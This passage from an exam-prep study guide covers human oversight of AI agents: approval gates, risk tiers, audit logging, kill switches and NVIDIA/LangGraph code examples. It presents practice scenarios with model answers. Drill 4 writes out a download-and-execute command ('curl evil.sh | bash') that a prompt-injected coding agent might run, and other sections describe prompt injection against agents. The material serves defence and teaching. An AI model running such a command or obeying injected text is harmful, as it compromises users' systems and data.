17. **Per-user functions are oversight, not just security.** Limiting an agent's tool set by user role is capability control: the agent acting for a regular user *cannot* call admin tools because they aren't in its tool set. And tool-list filtering alone isn't enough — back it with an execution-rail permission check (the LLM may still try a removed tool).
18. **Graceful degradation on approval timeout — never "execute anyway."** When the approver is unavailable, the safe fallbacks are *queue for review* or *inform the user it's pending*. Auto-executing on timeout defeats the gate. Also: blocking *without* a timeout is its own anti-pattern (resources held forever).
19. **Auditability is a *composition*, not one feature.** The exam's "which NAT features give a complete audit trail?" answer is **authentication (who) + audit/middleware logging (what) + observability (how)** — not NIM, not Dynamo, not Helm. And an audit log that nobody can query is compliance theater.

## 7. Scenario drills

1. **A finance agent drafts and executes vendor payments. Payments over $10k must be human-approved before execution; the reviewer may not respond for hours. Best design?**
   → LangGraph-style `interrupt()` at the payment node with a durable checkpointer keyed by `thread_id`; resume with `Command(resume=approve/edit/reject)`. *Checkpointing makes a multi-hour pause safe and resumable; gating only the >$10k path avoids approval fatigue.*

2. **An ops agent auto-remediates alerts (restart pods, scale deployments). The team wants speed but the ability to step in when behavior looks off. Which oversight model?**
   → Human-on-the-loop: execute autonomously, stream actions to a dashboard with full tool traces, intervention/override + kill switch available. *Actions are reversible and high-volume — blocking approval (HITL) would defeat the purpose; pure HOOTL removes the intervention they asked for.*

3. **A support agent should answer routine questions itself but hand off when it's likely to be wrong. How?**
   → Selective deferral: compute a calibrated confidence score (e.g., judge/verifier or self-consistency), escalate below threshold τ to a human *with full conversation context and tool traces attached*; tune τ on labeled validation data for a target error rate. *Confidence-thresholded escalation concentrates human effort where the model is weakest; context handoff prevents restarting from zero.*

4. **Security review finds the coding agent could be prompt-injected into running `curl evil.sh | bash`. The team proposes adding "never download or execute scripts" to the system prompt. Better answer?**
   → Environment-level controls: deny-by-default command allowlist, least-privilege credentials, and sandboxed execution with restricted egress (OpenShell-style out-of-process policy enforcement) + audit trail. *Prompt instructions are exactly what injection defeats; hard controls hold even when the model is compromised.*

5. **Users complain they "can't tell what the agent is doing" during 60-second multi-step runs, and they distrust its answers. Two UX changes?**
   → Stream intermediate steps/tokens with plan-level progress indication, and attach source citations + a visible tool-use trace to answers. *Legible progress fixes perceived latency/opacity; citations and traces make answers verifiable, calibrating trust.*

6. **An NCP-AAI scenario: on the NVIDIA stack, a NeMo Agent Toolkit ReAct agent hits its `max_iterations` mid-task. The team wants the user to decide whether it continues. Which mechanism?**
   → NAT HITL: acquire `user_interaction_manager` from `Context`, call `prompt_user_input` with an approval prompt (per the `hitl_approval_function` / `simple_calculator_hitl` pattern); continue and raise iterations only on "yes". *This is NAT's built-in, config-driven approval-gate pattern — no custom pause logic or framework switch needed.*

7. **A NAT support agent has tools `search`, `send_email`, `issue_refund`, `delete_record`. Regular users must never be able to trigger refunds or deletions, even via prompt injection. How, on the NVIDIA stack?**
   → **Per-user functions via NAT authentication**: map the regular-user role to a tool set of `{search}` only, so `issue_refund`/`delete_record` are *not in the agent's tool set* for that user. Back it with an execution-rail permission check so a removed tool is also blocked at runtime. *Capability isolation by authenticated role is least privilege enforced at the agent level — the agent literally cannot call what it can't see.*

8. **A refund agent must get manager approval for refunds over $500, but the manager is often in meetings for an hour. The team wants the agent to keep serving other users meanwhile. Sync or async, and what on timeout?**
   → **Asynchronous approval**: NeMo Guardrails execution rail gates `issue_refund` > $500, queues the action (NAT async/Dask + notification), and the agent releases resources to serve others. On timeout, **degrade gracefully** — keep it queued for later review and inform the user it's pending; **never auto-execute**. *Sync approval would block resources for an hour; auto-execute-on-timeout defeats the gate.*

9. **A compliance officer asks: "Which NVIDIA features prove who did what and let us reconstruct any decision?" Which combination?**
   → **NAT authentication (who/identity + approver) + audit logging with PII redaction (what, append-only, queryable) + NAT observability/OTel (how/traces, cost)** — giving traceability, accountability, reviewability. *Not NIM/Dynamo/Helm; auditability is a composition of auth + logging + observability, hash-chained and searchable.*

10. **The product team wants the agent to draft investment recommendations but says a licensed advisor must make and place every trade decision. Where on the oversight ladder, and how on NVIDIA?**
    → **Human-in-command (HIC)**: the agent uses **NAT structured output** to produce a recommendation/draft only; execution is entirely the advisor's. *HIC (EU AI Act term) is "agent recommends, human commands" — stronger than HITL, where the agent would act after approval. Regulated, high-stakes judgment ⇒ keep the human in command.*

## 8. Builder's corner

- **Classify tools by risk tier on day one.** Tag every tool `read-only | reversible-write | irreversible` and wire policy off the tag: tier 1 free, tier 2 HOTL + undo, tier 3 HITL gate. Retrofitting risk tiers after an incident is far more painful.
- **Make approvals reviewable, not just clickable.** Show the exact tool name and arguments (the diff, the recipient list, the SQL) in the approval UI, and offer Edit alongside Approve/Reject. Approvals of vague summaries train humans to rubber-stamp.
- **Treat traces as your audit log from the start.** Turn on OTel/Phoenix/Langfuse exporters (in NAT: a few lines under `general.telemetry`) in dev, not just prod — you get debugging now and an audit/compliance substrate later. Record approver identity on every gated action.
- **Plan for the unhappy paths of HITL:** approvals that never come (TTL-expire and cancel abandoned threads; NAT supports prompt timeouts that raise `TimeoutError`), approvers editing arguments (re-validate edited args like any untrusted input), and nodes re-running on resume (keep pre-interrupt code idempotent).
- **Ship progressive autonomy.** Start new agents in shadow/supervised mode, measure per-action-type accuracy, then widen the autonomous scope action-by-action with an explicit policy file — and keep a fleet-level kill switch (credential revocation beats polite stop messages) tested like a fire drill.

## 9. Sources

- NVIDIA NCP-AAI official certification page (domains/weights, exam format): https://www.nvidia.com/en-us/learn/certification/agentic-ai-professional/
- NeMo Agent Toolkit repo: https://github.com/NVIDIA/NeMo-Agent-Toolkit
- NAT HITL example (`simple_calculator_hitl`, `hitl_approval_function`): https://github.com/NVIDIA/NeMo-Agent-Toolkit/blob/develop/examples/HITL/simple_calculator_hitl/README.md
- NAT Interactive Models guide (`HumanPromptText`, `UserInteractionManager`, `prompt_user_input`, serve-vs-run support): https://docs.nvidia.com/nemo/agent-toolkit/latest/reference/interactive-models.html
- NAT WebSocket message schema (HITL prompts over `nat serve`): https://docs.nvidia.com/nemo/agent-toolkit/latest/reference/websockets.html
- NAT HTTP interactive execution (HITL/OAuth over plain HTTP, WebSocket-limited envs): https://docs.nvidia.com/nemo/agent-toolkit/latest/reference/rest-api/http-interactive-execution.html
- NAT authentication providers (api_key, oauth2 auth-code flow, http_basic_auth, bearer/credential validator, MCP service account; `authentication` YAML key, `redirect_uri` gotcha, per-user token isolation): https://docs.nvidia.com/nemo/agent-toolkit/latest/components/auth/api-authentication.html
- NAT MCP authentication + secure per-user token storage (encrypted, in-memory/Redis/MySQL/S3, auto-refresh): https://docs.nvidia.com/nemo/agent-toolkit/latest/workflows/mcp/mcp-auth.html ; https://docs.nvidia.com/nemo/agent-toolkit/latest/workflows/mcp/mcp-auth-token-storage.html
- EU AI Act human oversight — HITL / HOTL / human-in-command (HIC) (Art. 14): https://www.tandfonline.com/doi/full/10.1080/17579961.2023.2245683
- NAT HITL timeout behavior (issue #1579): https://github.com/NVIDIA/NeMo-Agent-Toolkit/issues/1579
- NAT observability (telemetry exporters: Phoenix, Langfuse, Weave, LangSmith, OTLP): https://docs.nvidia.com/nemo/agent-toolkit/latest/run-workflows/observe/observe.html
- NeMo Agent Toolkit UI (streaming + HITL rendering): https://github.com/NVIDIA/NeMo-Agent-Toolkit-UI
- NeMo Guardrails repo (five rail types, config.yml, Colang, self-check): https://github.com/NVIDIA-NeMo/Guardrails
- NVIDIA AI Safety Recipe blog (NemoGuard NIMs, garak, 88→94% / 56→63% results): https://developer.nvidia.com/blog/safeguard-agentic-ai-systems-with-the-nvidia-safety-recipe/
- NVIDIA OpenShell blog (sandboxing, deny-by-default permissions, privacy router, audit trail): https://developer.nvidia.com/blog/run-autonomous-self-evolving-agents-more-safely-with-nvidia-openshell/
- NVIDIA blog — exploiting agentic AI developer tools (why hard controls > prompts): https://developer.nvidia.com/blog/from-assistant-to-adversary-exploiting-agentic-ai-developer-tools/
- LangChain/LangGraph human-in-the-loop docs (interrupt, Command(resume), approve/edit/reject/respond): https://docs.langchain.com/oss/python/langchain/human-in-the-loop
- LangChain blog — interrupt for HITL agents: https://www.langchain.com/blog/making-it-easier-to-build-human-in-the-loop-agents-with-interrupt
- HITL vs HOTL vs HOOTL overviews: https://www.famulor.io/blog/human-in-the-loop-vs-on-the-loop-vs-out-of-the-loop ; https://techjacksolutions.com/ai/agentic-ai/learn/human-in-the-loop/
- Agent UX patterns (confirmation/edit, progressive autonomy, undo + action audit, trust calibration): https://www.smashingmagazine.com/2026/02/designing-agentic-ai-practical-ux-patterns/ ; https://llms.zypsy.com/agent-ux-guardrails ; https://hatchworks.com/blog/ai-agents/agent-ux-patterns/
- Confidence-based deferral research (cascades, threshold calibration, coverage/precision tradeoff): https://arxiv.org/pdf/2407.18370 ; https://arxiv.org/html/2506.11887v3
- NCP-AAI exam-prep guide (domain context, sample scenario framing): https://flashgenius.net/blog-article/your-comprehensive-guide-to-the-nvidia-agentic-ai-llm-professional-certification-ncp-aai

## 10. Code Companion

> All snippets verified against current (2025-26) APIs. Model layer defaults to NVIDIA endpoints — `export NVIDIA_API_KEY=nvapi-...` for build.nvidia.com, or point `base_url` at a local NIM (`http://localhost:8000/v1`) and the key becomes irrelevant.

**1) LangGraph HITL end-to-end: interrupt → inspect → approve / edit / reject**

```python
from typing import TypedDict
from langgraph.graph import StateGraph, START, END
from langgraph.checkpoint.memory import InMemorySaver   # older form was MemorySaver (still aliased)
from langgraph.types import interrupt, Command

class S(TypedDict):
    amount: float; status: str

def wire_transfer(state: S):
    # Execution suspends EXACTLY here; payload is persisted for the approval UI.
    decision = interrupt({"tool": "wire_transfer", "args": {"amount": state["amount"]}})
    if decision["action"] == "approve":
        amt = decision.get("amount", state["amount"])          # edited args (if any) win
        return {"status": f"sent ${amt}"}
    return {"status": f"rejected: {decision.get('feedback', '')}"}  # feedback → re-plan path

g = (StateGraph(S).add_node("wire_transfer", wire_transfer)
     .add_edge(START, "wire_transfer").add_edge("wire_transfer", END)
     .compile(checkpointer=InMemorySaver()))            # no checkpointer ⇒ interrupt() errors out

cfg = {"configurable": {"thread_id": "t-42"}}           # the resume key — must match on resume
out = g.invoke({"amount": 12_000, "status": ""}, cfg)
print(out["__interrupt__"][0].value)                    # list of Interrupt objects; .value = payload
print(g.invoke(Command(resume={"action": "approve"}), cfg))                          # approve as-is
# g.invoke(Command(resume={"action": "approve", "amount": 9_000}), cfg)              # edit-args variant
# g.invoke(Command(resume={"action": "reject", "feedback": "wrong vendor"}), cfg)    # reject + feedback
```

What to notice: the four exam-critical mechanics in one place — `interrupt()` needs a checkpointer, the pause surfaces as `__interrupt__` in the result, resume requires the *same* `thread_id` via `Command(resume=...)`, and the resume value becomes the return of `interrupt()` (so approve/edit/reject are just shapes of that value). Remember the node re-runs from its top on resume — keep pre-interrupt code idempotent.

**2) Confidence-based routing: verifier score gates a human-review edge**

```python
from langchain_nvidia_ai_endpoints import ChatNVIDIA          # pip install langchain-nvidia-ai-endpoints
llm = ChatNVIDIA(model="meta/llama-3.3-70b-instruct")         # build.nvidia.com; add base_url="http://localhost:8000/v1" for a local NIM

def verify(state):           # LLM-as-judge — a *calibrated* signal, unlike "are you sure?"
    s = llm.invoke(f"Rate factual support of this draft 0-1. Number only.\n{state['draft']}")
    return {"score": float(s.content.strip())}

def route(state):            # conditional edge: below threshold ⇒ escalate, never guess
    return "human_review" if state["score"] < 0.8 else "publish"

def human_review(state):     # escalation carries full context (draft + score), not just "help"
    fix = interrupt({"draft": state["draft"], "score": state["score"]})
    return {"draft": fix["draft"], "score": 1.0}

builder.add_conditional_edges("verify", route, ["human_review", "publish"])
```

What to notice: this is selective deferral (§3.5) as a graph topology — the threshold lives in a routing function, and the human-review node reuses the same `interrupt()` machinery as snippet 1. Tune `0.8` on labeled validation data against a target error rate, not by vibes.

**3) NeMo Agent Toolkit HITL: YAML wiring + `prompt_user_input` with `HumanPromptText`**

```yaml
llms:
  nim_llm:
    _type: nim                              # NVIDIA NIM / build.nvidia.com backend
    model_name: meta/llama-3.3-70b-instruct
workflow:
  _type: react_agent
  llm_name: nim_llm
  tool_names: [gated_deploy]                # the custom HITL-gated function below
```

```python
from nat.builder.context import Context                     # older form was aiq.* (AgentIQ rename)
from nat.data_models.interactive import HumanPromptText

async def _gated_deploy(service: str) -> str:
    mgr = Context.get().user_interaction_manager            # NAT's HITL entry point
    resp = await mgr.prompt_user_input(
        HumanPromptText(text=f"Deploy '{service}' to prod? (yes/no)", required=True, placeholder="no"))
    if resp.content.text.strip().lower() != "yes":
        return "Deploy cancelled by human."                 # gate fails closed
    return deploy(service)
```

```bash
nat run --config_file configs/config-hitl.yml --input "ship the payments service"
```

What to notice: NAT makes HITL a *framework-level* capability acquired from `Context`, so any wrapped framework (LangGraph, CrewAI, ...) gets the same gate. Exam details: `nat run` supports only `HumanPromptText`; the full interaction-model set (approval widgets etc.) needs `nat serve` over WebSocket, and prompts can carry a timeout that raises `TimeoutError`.

**4) Streaming progress: `astream_events` surfacing node-level status**

```python
async for ev in g.astream_events({"question": q}, cfg):     # older form required version="v2"; now default
    kind = ev["event"]
    node = ev.get("metadata", {}).get("langgraph_node")
    if kind == "on_chain_start" and node:
        print(f"[step] entering {node}")                    # plan-level progress, not a spinner
    elif kind == "on_chat_model_stream":
        print(ev["data"]["chunk"].content, end="", flush=True)  # token stream from the NIM
    elif kind == "on_tool_end":
        print(f"\n[tool] {ev['name']} finished")            # tool trace for the UI / HOTL view
```

What to notice: one event stream gives you all three UX layers from §3.7 — step progress (`on_chain_start` + `langgraph_node` metadata), token streaming, and tool-use traces. This is what makes a 60-second run legible and makes mid-run interruption meaningful.

**5) Hard controls in code: scoped-token tool factory, hash-chained audit log, kill switch**

```python
import os, json, time, hashlib

def make_tool(name, fn, scope):                       # least privilege: one short-lived token PER tool
    token = mint_token(scope=scope, ttl=900)          # e.g. "crm:read" — never a shared admin cred
    def call(**kw):
        if os.getenv("AGENT_KILL_SWITCH") == "1":     # checked before EVERY dispatch
            raise RuntimeError("kill switch engaged — tool dispatch refused")
        result = fn(**kw, _auth=token)
        audit(name, kw)                               # log before returning control to the model
        return result
    return call

_prev = "GENESIS"
def audit(tool, args):                                # append-only JSONL, tamper-evident hash chain
    global _prev
    rec = {"ts": time.time(), "tool": tool, "args": args, "prev": _prev}
    _prev = rec["hash"] = hashlib.sha256((_prev + json.dumps(rec, sort_keys=True, default=str)).encode()).hexdigest()
    with open("audit.jsonl", "a") as f:
        f.write(json.dumps(rec, default=str) + "\n")
```

What to notice: each control maps to §3.8 — per-tool scoped tokens (least privilege), a hash chain making after-the-fact log edits detectable (audit), and a flag the dispatcher checks on every call (kill switch). The env flag is the in-process layer only; the *real* kill switch is out-of-band credential revocation the agent can't touch.

**6) Citations pattern: source IDs flow through state and into the rendered answer**

```python
class RagState(TypedDict):
    question: str; docs: list[dict]; answer: str

def retrieve(state):          # assign stable IDs at retrieval time — they ride in state from here on
    hits = retriever.invoke(state["question"])
    return {"docs": [{"id": f"S{i+1}", "text": d.page_content, "src": d.metadata["source"]}
                     for i, d in enumerate(hits)]}

def answer(state):
    ctx = "\n".join(f"[{d['id']}] {d['text']}" for d in state["docs"])
    msg = llm.invoke(f"Answer using ONLY these sources. Tag every claim like [S1].\n{ctx}\n\nQ: {state['question']}")
    return {"answer": msg.content}

def render(state):            # only sources actually cited make the reference list
    cited = {d["id"]: d["src"] for d in state["docs"] if f"[{d['id']}]" in state["answer"]}
    refs = "\n".join(f"[{k}] {v}" for k, v in cited.items())
    return {"answer": state["answer"] + "\n\nSources:\n" + refs}
```

What to notice: transparency (§3.6) engineered, not hoped for — IDs are minted by *your* code at retrieval, the prompt forces the model to tag claims, and the render node resolves tags back to real provenance. The user gets "check me" instead of "trust me", and uncited sources are dropped rather than padding the answer.

## 11. What top engineers are saying (2025-26)

1. **Erik Schluntz & Barry Zhang (Anthropic) — "Building Effective Agents" (Anthropic engineering blog).** Autonomy should be gated by *cost of error*: build checkpoints where agents pause for human review before irreversible actions, and prefer the simplest system that works over the most sophisticated one. This essay is effectively the canonical source of the risk/reversibility heuristic this whole domain (and its exam questions) is built on. https://www.anthropic.com/engineering/building-effective-agents

2. **Anthropic engineering — "Effective harnesses for long-running agents" (Nov 2025).** Long-running agents work in discrete sessions with no memory of prior ones, so the harness must externalize state — a `claude-progress.txt` file plus git history lets any fresh session (or any human) reconstruct exactly where work stands. The lesson for oversight: durable, legible external state is the same machinery that makes interrupt/resume, audits, and HOTL supervision possible — oversight quality is a *harness* property, not a model property. https://www.anthropic.com/engineering/effective-harnesses-for-long-running-agents

3. **Dex Horthy (HumanLayer) — "12-Factor Agents" (GitHub + Agents in Production 2025 talk).** Factor 6 (launch/pause/resume with simple APIs) observes that most orchestrators can pause between *steps* but not between *tool selection and tool execution* — which is precisely where an approval gate has to sit; Factor 7 (contact humans with tool calls) says human interaction should be just another structured tool call (`request_human_input`, `done_for_now`) flowing through the same state machine as every other action. This reframing — human-as-tool, approval as serialized state — is the most influential builder take on HITL of the period, and LangGraph's `interrupt()` is essentially this idea productized. https://github.com/humanlayer/12-factor-agents (see `content/factor-06-launch-pause-resume.md` and `factor-07-contact-humans-with-tools.md`)

4. **Harrison Chase (LangChain) — "Introducing ambient agents" (LangChain blog, Jan 2025).** Ambient agents run on events rather than chat, which makes human attention the scarce resource — so HITL decomposes into three patterns (**notify**, **question**, **review**) surfaced through an "agent inbox" UI, and human feedback doubles as the signal for long-term memory and learning. This is the HOTL + approval-UX discourse in its current form: don't block on humans by default, route the few moments that matter into an inbox. https://blog.langchain.com/introducing-ambient-agents/

5. **Simon Willison — "The lethal trifecta for AI agents" (June 2025) and "New prompt injection papers" (Nov 2025).** Any agent combining (a) access to private data, (b) exposure to untrusted content, and (c) the ability to communicate externally cannot be made safe by prompting; if a task genuinely needs all three in one session, the agent "should not be permitted to operate autonomously" — human-in-the-loop approval is the minimum (the Nov post covers Meta's "Agents Rule of Two" formalization: pick at most two of the three per session). This is the sharpest articulation of why exam trap #6 ("a sterner system prompt") is wrong and hard controls + HITL are right. https://simonw.substack.com/p/the-lethal-trifecta-for-ai-agents ; https://simonwillison.net/2025/Nov/2/new-prompt-injection-papers/

6. **Molten.Bot engineering blog — "The Agent Approval Fatigue Problem (And Why Your Security Team Is Clicking 'Yes' to Everything)."** Approval fatigue is a documented clickthrough *vulnerability*, not just bad UX: HITL works when decisions are rare and consequential and collapses into rubber-stamping when they're frequent and varied (the post leans on Franklin et al.'s 2025 Google DeepMind "AI agent traps" work). The prescribed fix is exactly this domain's risk-tiering: reserve synchronous interruption for genuinely consequential actions so the approval signal stays meaningful. https://molten.bot/blog/agent-approval-fatigue/

7. **MindStudio — "What Is Progressive Autonomy for AI Agents?"** Agents should *earn* expanded permissions from observed performance against defined risk thresholds rather than launching fully privileged — and autonomy gets demoted after incidents, the same way it was earned. This operationalizes the "progressive autonomy / trust calibration" idea from §3.7 as an explicit permission policy with promotion and demotion rules, which is where the practitioner consensus has landed on moving from HITL toward HOOTL safely. https://www.mindstudio.ai/blog/progressive-autonomy-ai-agents-safe-deployment
